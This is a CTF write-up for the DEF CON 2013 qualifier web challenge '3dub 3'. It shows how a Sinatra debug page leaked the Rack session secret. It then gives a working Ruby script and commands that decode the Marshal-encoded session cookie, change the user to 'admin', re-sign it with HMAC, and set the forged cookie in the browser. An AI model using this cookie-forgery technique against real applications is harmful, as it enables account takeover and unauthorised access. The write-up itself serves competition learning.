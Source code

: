 ```yaml
---
title: DEF CON CTF Qualifier 2013 3dub 3 Writeup
author: xelz
layout: post
permalink: /def-con-ctf-qualifier-2013-3dub-3-writeup/
categories:
  - CTF
  - writeup
tags:
  - cookie
  - CTF
  - session
  - web
  - writeup
---
```

First of all, we got a &#8216;secrets&#8217; link and &#8216;log in or create user&#8217; form. When we create and login, the website redirect us to the &#8216;secrets&#8217; page like this

    Secrets
    name    owner   actions
    key admin   show
    nothing asdf    show
    new secret
    

we&#8217;ve got some links to see secrets owned by other users, include the &#8216;admin&#8217;, or easily add a new secret ourselves.

Having a try to open the [admin&#8217;s secret][1], we got a 500 Error Page with some error stack, which powered by the Ruby framework &#8216;Sinatra&#8217;.

From the very first sight of the page, it said &#8216;unauthorized&#8217; as the error message and a piece of source code was provided

    end
    
      redirect '/secrets'
    end
    
    get '/secrets/:id' do
      s = SECRETS[params[:id].to_i]
      raise "unauthorized" if session[:user_name] != s.username
    
      haml :secret, locals: {secret: s}
    end
    
    helpers do
      def current_user
        return nil unless session[:user_name]
    

It meant that I&#8217;m not she secret&#8217;s holder. then have a look at the whole page, and you would find some environment variable in the &#8216;Rack ENV&#8217; section, partly like

rack.session

`{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}`

rack.session.options

`{:path=>"/", :domain=>nil, :expire_after=>nil, :secure=>false, :httponly=>true, :defer=>false, :renew=>false, :sidbits=>128, :secure_random=>SecureRandom, :secret=>"wroashsoxDiculReejLykUssyifabEdGhovHabno", :coder=>#}`

rack.session.unpacked\_cookie\_data

`{"session_id"=>"353c66525a01fa0b3856cb9f34aae2aa9a36ad4cde02daea0ccfbaf566ddbb5a", "tracking"=>{"HTTP_USER_AGENT"=>"9c1f7f9f1bf9d50ec9176e6a805368e30e9d48bb", "HTTP_ACCEPT_ENCODING"=>"ed2b3ca90a4e723402367a1d17c8b28392842398", "HTTP_ACCEPT_LANGUAGE"=>"ca4aee0e81214addc5fb12877cf9e5c8b8beb7d6"}, "csrf"=>"5f6d85b7e1b0a48c8a87e42803ac166cf7d60121afd24ba937bf65fa4f8989c6", "user_name"=>"test"}`

rack.request.cookie_hash

`{"rack.session"=>"BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n--d637305e23d6693f3ebe276b292293c7ff0b72e6"}`

we&#8217;ve got some message:

the cookie `rack.session` is some way encoded of `rack.session.unpacked_cookie_data`, which is totally the same as env variable `rack.session`, and the coder mybe `Rack::Session::Cookie::Base64::Marshal`, secret (if any) maybe &#8216;wroashsoxDiculReejLykUssyifabEdGhovHabno&#8217;

By seeking the source code of rack, we found this(<https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb>)

    @secrets = options.values_at(:secret, :_old_secret).compact
    # some code else
    session_data = coder.encode(session)
    if @secrets.first
      session_data << "--#{generate_hmac(session_data, @secrets.first)}"
    end 
    # some code else
    def generate_hmac(data, secret)
      OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
    

Once the server received a request, it would confirm the validation of the cookie, reset the session if digest mismatch

    if @secrets.size > 0 && session_data
        session_data, digest = session_data.split("--")
        session_data = nil unless digest_match?(session_data, digest)
    end
    

Meanwhile, we knew the whole process of the session checking. thus, I&#8217;ve wrote a ruby script to figure out this stuff with this way

*   unpack(decode) the cookie to origin session data
*   modify session\_data.user\_name to &#8216;admin&#8217;
*   repack(encode) the session data to cookie string format
*   calculate a new digest of the session data then build the cookie

codes below for example

    #!/usr/bin/ruby
    #Author: xelz@blue-lotus
    
    require 'openssl'
    
    # part of rack/lib/rack/session/cookie.rb
    class Base64
        def encode(str)
            [str].pack('m')
        end
    
        def decode(str)
            str.unpack('m').first
        end
    
        # Encode session cookies as Marshaled Base64 data
        class Marshal < Base64
            def encode(str)
                super(::Marshal.dump(str))
            end
    
            def decode(str)
                return unless str
                ::Marshal.load(super(str)) rescue nil
            end
        end
    end
    
    def generate_hmac(data, secret)
       OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
    end
    
    exit() unless ARGV[0]
    
    data = ARGV[0].split('--')[0]
    # puts 'data is:'
    # puts data, "\n"
    
    coder = Base64::Marshal.new
    data = coder.decode(data)
    data['user_name'] = "admin"
    data = coder.encode(data)
    # puts 'modified data is:'
    # puts data, "\n"
    data = data
    
    secret = 'wroashsoxDiculReejLykUssyifabEdGhovHabno'
    # puts 'new digest string is:'
    digest = generate_hmac(data, secret)
    # puts digest, "\n"
    
    puts 'cookie is'
    cookie = data.gsub("\n", "%0A") + '--' + digest
    puts cookie
    

run the script like this:

    xelz@blue-lotus:defconctf$echo -en 'BAh7CUkiD3Nlc3Npb25faWQGOgZFRiJFMzUzYzY2NTI1YTAxZmEwYjM4NTZj\nYjlmMzRhYWUyYWE5YTM2YWQ0Y2RlMDJkYWVhMGNjZmJhZjU2NmRkYmI1YUki\nDXRyYWNraW5nBjsARnsISSIUSFRUUF9VU0VSX0FHRU5UBjsARiItOWMxZjdm\nOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlkNDhiYkkiGUhUVFBfQUND\nRVBUX0VOQ09ESU5HBjsARiItZWQyYjNjYTkwYTRlNzIzNDAyMzY3YTFkMTdj\nOGIyODM5Mjg0MjM5OEkiGUhUVFBfQUNDRVBUX0xBTkdVQUdFBjsARiItY2E0\nYWVlMGU4MTIxNGFkZGM1ZmIxMjg3N2NmOWU1YzhiOGJlYjdkNkkiCWNzcmYG\nOwBGIkU1ZjZkODViN2UxYjBhNDhjOGE4N2U0MjgwM2FjMTY2Y2Y3ZDYwMTIx\nYWZkMjRiYTkzN2JmNjVmYTRmODk4OWM2SSIOdXNlcl9uYW1lBjsARkkiCXRl\nc3QGOwBU\n' | awk '{print $1"\\"}' | xargs ./hypeman.rb
    cookie is
    BAh7CSINdHJhY2tpbmd7CCIZSFRUUF9BQ0NFUFRfRU5DT0RJTkciLWVkMmIz%0AY2E5MGE0ZTcyMzQwMjM2N2ExZDE3YzhiMjgzOTI4NDIzOTgiFEhUVFBfVVNF%0AUl9BR0VOVCItOWMxZjdmOWYxYmY5ZDUwZWM5MTc2ZTZhODA1MzY4ZTMwZTlk%0ANDhiYiIZSFRUUF9BQ0NFUFRfTEFOR1VBR0UiLWNhNGFlZTBlODEyMTRhZGRj%0ANWZiMTI4NzdjZjllNWM4YjhiZWI3ZDYiCWNzcmYiRTVmNmQ4NWI3ZTFiMGE0%0AOGM4YTg3ZTQyODAzYWMxNjZjZjdkNjAxMjFhZmQyNGJhOTM3YmY2NWZhNGY4%0AOTg5YzYiD3Nlc3Npb25faWQiRTM1M2M2NjUyNWEwMWZhMGIzODU2Y2I5ZjM0%0AYWFlMmFhOWEzNmFkNGNkZTAyZGFlYTBjY2ZiYWY1NjZkZGJiNWEiDnVzZXJf%0AbmFtZSIKYWRtaW4=%0A--4bd0a545e155460f804aff9df3e80e20fdffa07f
    

then modify the cookie with the new value, using any tool you like such as Firebug(for Firefox), WebInspector(for Webkit Based Browser), Fiddler(under IE7), Burpsuite(Java Based for any platform), I&#8217;d like to use the Javascript Console in Chrome:

    document.cookie='rack.session=xxx;'
    

refresh the page, and enjoy <img src='http://www.blue-lotus.net/wp-includes/images/smilies/icon_smile.gif' alt=':)' class='wp-smiley' /> 

> key
> 
> watch out for this Etdeksogav

 [1]: http://hypeman.shallweplayaga.me/secrets/0